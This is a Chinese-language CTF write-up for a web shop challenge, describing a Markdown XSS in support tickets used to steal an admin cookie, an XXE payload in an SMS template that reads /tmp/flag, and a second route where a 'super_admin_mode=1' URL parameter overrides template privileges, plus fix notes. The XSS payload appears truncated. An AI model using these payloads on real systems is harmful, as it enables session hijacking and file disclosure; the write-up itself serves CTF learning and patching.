

# xxxxx

## 解题过程

### 1、注册账号进入用户界面


### 2、进入工单记录，提交 Markdown XSS

```markdown
)%")
```

该 payload 是弹到本地8234端口

### 3、在本地监听8234端口，得到管理员cookie


### 4、利用得到的管理员cookie登陆管理员界面，进入短信设置


### 5、打开请求手机验证，修改模板为

```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE xdsec [ <!ENTITY xxe SYSTEM "file:///tmp/flag" >
]>
<root>
    <tel>{tel}</tel>
    <text>【VYG乐购】您的验证码为： {code} &xxe;</text>
</root>
```

### 6、触发发送短信操作，进入管理员后台查看发送记录


修复点：

- `Ticket.py里TicketCreateHandler.post`，使用更强的过滤（如先md再bleach），不能直接禁用Markdown
- 修复SMS服务器上的XXE注入，关闭实体解析，不能直接删除发短信功能
- （这个漏洞应该都会修…………）


## 解法2 - Python修饰器参数注入

（专门为fixit环节设计）

访问 `http://127.0.0.1:8233/user/2?super_admin_mode=1` 可得管理员flag


原理：

出问题的函数集中在`view/tools.py`，这里存放了常用的辅助函数。当不同修饰器连接时，验证规则不健壮造成对模板逻辑的注入。

template_kwargs_importer用于合并参数字典




import_args用于直接将表单导入到函数参数表，方便保存后显示表单保存好的数据，提高用户和编码体验（因为数据已经在命名空间中，直接传给模板引擎即可，不需要再重复写参数列表），例如：


RequestHandler.render被修改，用于向模板系统引入常用变量（比如渲染顶栏菜单时，区分管理员模式）


render里面`**template_kwargs_importer(modes,kwargs)` 由于合并次序问题，当kwargs有super_admin_mode或customer_service_mode时，会将真正的值覆盖掉，而敏感信息显示与否是交予模板控制的，当以后门的方式加入上述参数，便可以对应权限查看用户敏感信息，造成隐私泄露。


灵感来源： https://blog.csdn.net/cc7756789w/article/details/46635383

修复事项：

- 不能屏蔽userinfo（本来是想由于显示和用户信息界面的，没时间写……）
- 不能修改自带Flag的用户信息（用户隐私都泄露了还不算漏洞么……）